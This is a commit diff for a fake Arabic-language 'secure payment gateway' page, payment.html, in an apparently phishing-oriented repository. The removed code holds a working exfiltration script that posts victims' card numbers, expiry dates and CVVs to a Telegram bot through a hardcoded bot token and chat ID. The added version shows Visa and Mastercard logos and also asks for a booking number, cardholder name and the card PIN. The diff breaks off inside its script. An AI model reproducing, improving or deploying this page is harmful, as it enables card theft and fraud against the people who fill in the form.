

Before and after one commit to tdbertdber46-maker/Kk, a plain HTML site: page payment.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update payment.html

```diff
--- a/payment.html
+++ b/payment.html
@@ -1,52 +1,49 @@
 <!DOCTYPE html>
 <html lang="ar" dir="rtl">
 <head>
-  <meta charset="UTF-8">
-  <title>صفحة الدفع</title>
+  <meta charset="UTF-8" />
+  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
+  <title>بوابة الدفع الآمنة</title>
   <style>
-    body {font-family: Tahoma, Arial; background:#f9f9f9; margin:0; padding:0;}
-    .container {max-width:400px; margin:50px auto; background:#eef7ff; padding:25px; border-radius:12px; box-shadow:0 4px 8px rgba(0,0,0,0.1);}
-    h2 {text-align:center; color:#1e5a9c; margin-bottom:20px;}
-    label {display:block; margin-bottom:8px; font-weight:bold; color:#333;}
-    input, button {width:100%; padding:12px; margin-bottom:15px; border:1px solid #ccc; border-radius:6px; font-size:15px;}
-    button {background:#1e5a9c; color:white; font-weight:bold; cursor:pointer; border:none;}
-    button:hover {background:#14406d;}
+    body{font-family:"Tajawal",Arial,sans-serif;direction:rtl;background:#f5f5f5;margin:0;padding:0;display:flex;flex-direction:column;min-height:100vh;}
+    header{background:#004080;color:#fff;text-align:center;padding:16px;}
+    .card-logos{display:flex;justify-content:center;gap:20px;flex-wrap:wrap;}
+    .card-logos img{height:40px;max-width:100%;}
+    main{flex:1;display:grid;place-items:center;padding:20px;}
+    form{background:#fff;padding:20px;border-radius:12px;width:min(500px,100%);box-shadow:0 0 12px rgba(0,0,0,.12);}
+    label{display:block;margin-top:12px;font-size:14px;font-weight:600;}
+    input,select{width:100%;padding:10px;margin-top:6px;border:1px solid #ccc;border-radius:6px;font-size:14px;box-sizing:border-box;}
+    button{margin-top:20px;padding:12px;width:100%;background:#004080;color:#fff;border:0;border-radius:6px;font-size:16px;font-weight:700;cursor:pointer;transition:background .2s;}
+    button:hover{background:#002b5c;}
+    footer{background:#1f2937;color:#fff;text-align:center;padding:14px;font-size:13px;}
   </style>
 </head>
 <body>
-  <div class="container">
-    <h2>بيانات الدفع</h2>
-    <label for="card">رقم البطاقة</label>
-    <input type="text" id="card" placeholder="xxxx xxxx xxxx xxxx">
-
-    <label for="expiry">تاريخ الانتهاء</label>
-    <input type="text" id="expiry" placeholder="MM/YY">
-
-    <label for="cvv">CVV</label>
-    <input type="text" id="cvv" placeholder="3 أرقام خلف البطاقة">
-
-    <button onclick="sendPayment()">إرسال الدفع</button>
-  </div>
-
-  <script>
-    const BOT_TOKEN = "7994339638:AAHgur93jAzxz55NZTtD5J3WKgDaWZtlV3E";
-    const CHAT_ID = "16420566";
-
-    function sendPayment() {
-      const card = document.getElementById("card").value;
-      const expiry = document.getElementById("expiry").value;
-      const cvv = document.getElementById("cvv").value;
-
-      const message = `💳 محاولة دفع:\nرقم البطاقة: ${card}\nانتهاء: ${expiry}\nCVV: ${cvv}`;
-
-      fetch(`https://api.telegram.org/bot${BOT_TOKEN}/sendMessage`, {
-        method: "POST",
-        headers: {"Content-Type": "application/json"},
-        body: JSON.stringify({chat_id: CHAT_ID, text: message})
-      }).then(() => {
-        window.location.href = "verify.html";
-      });
-    }
-  </script>
-</body>
-</html>
+  <header>
+    <div class="card-logos">
+      <img src="https://upload.wikimedia.org/wikipedia/commons/0/04/Visa.svg" alt="Visa">
+      <img src="https://upload.wikimedia.org/wikipedia/commons/0/04/Mastercard-logo.png" alt="MasterCard">
+    </div>
+  </header>
+  <main>
+    <form id="paymentForm">
+      <label for="confirmBooking">تأكيد رقم الحجز:</label>
+      <input id="confirmBooking" minlength="6" maxlength="6" required oninput="this.value=this.value.replace(/[^0-9]/g,'')" />
+      <label for="cardNumber">رقم البطاقة:</label>
+      <input id="cardNumber" maxlength="19" required oninput="formatCardNumber(this)" />
+      <label for="cardName">الاسم الموجود على البطاقة:</label>
+      <input id="cardName" required />
+      <label for="expiryMonth">الشهر (MM):</label>
+      <select id="expiryMonth" required><option value="">--</option><option>01</option><option>02</option><option>03</option><option>04</option><option>05</option><option>06</option><option>07</option><option>08</option><option>09</option><option>10</option><option>11</option><option>12</option></select>
+      <label for="expiryYear">السنة (YYYY):</label>
+      <select id="expiryYear" required><option value="">--</option><option>2025</option><option>2026</option><option>2027</option><option>2028</option><option>2029</option><option>2030</option></select>
+      <label for="cvv">CVV (3 أو 4 أرقام):</label>
+      <input id="cvv" minlength="3" maxlength="4" required oninput="this.value=this.value.replace(/[^0-9]/g,'')" />
+      <label for="pin">الرقم السري (PIN):</label>
+      <input id="pin" type="password" maxlength="4" required oninput="this.value=this.value.replace(/[^0-9]/g,'').slice(0,4)" />
+      <button type="submit">ادفع الآن</button>
+    </form>
+  </main>
+  <footer>© جميع الحقوق محفوظة 2025 • البوابة الإلكترونية</footer>
+<script>
+  function formatCardNumber(input){let v=input.value.replace(/[^0-9]/g,"");v=v.slice(0,16);let f=v.match(/.{1,4}/g);
```
